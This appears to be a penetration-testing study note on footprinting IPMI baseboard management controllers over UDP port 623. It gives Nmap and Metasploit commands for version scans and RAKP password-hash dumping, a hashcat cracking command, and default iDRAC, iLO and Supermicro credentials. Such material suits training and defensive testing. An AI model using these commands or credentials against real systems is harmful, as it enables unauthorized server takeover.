 ```yaml
tags:

- cpts
- cybersecurity
- info gathering
```

# Cheat Sheet

```shell-session
# UDP port 623

# Nmap Scan
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

# Metasploit Version Scan
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195 

# Metasploit Hash Dump
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195

# Hashcat Offline Cracking

```

# Concepts

- Intelligent Platform Management Interface (IPMI)

- Standardized approach for remote management and monitoring of computer systems, independent of the operating system or power state

- Uses direct network connection to the system's hardware and doesn't require access to the OS via a login shell.

- Can be used for remote upgrades without physical access.
  
  - Before the OS has booted to modify BIOS settings
  
  - When the host is fully powered down
  
  - Access to a host after a system failure

## Footprinting

- Communicates over `UDP port 623`

- Systems that use IPMI are called Baseboard management Controllers (BMCs)

- Most common BMCs are `HP iLO, Dell DRAC and Supermicro IPMI`

- Most of these have a web based management console, a remote access protocol like Telnet or SSH, and udp port 623

- Gaining access to the BMC is the same as physical access. 

### Nmap Scan

```shell
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

### Metasploit Version Scan

```shell
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```

### Metasploit Dumping Hashes

```shell
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
```

### Hashcat Cracking

```shell
sudo hashcat -m 7300 -w 3 -O {hash} /path/to/wordlist
```

### Default Creds

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                     |

In case the default credentials don't work, take a look at the **flaw in the RAKP protocol in ipmi 2.0** [References](#References)

# References

- [623/UDP/TCP - IPMI | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)[623/UDP/TCP - IPMI | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi)

- [Cracking IPMI Passwords Remotely](http://fish2.com/ipmi/remote-pw-cracking.html)

- [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
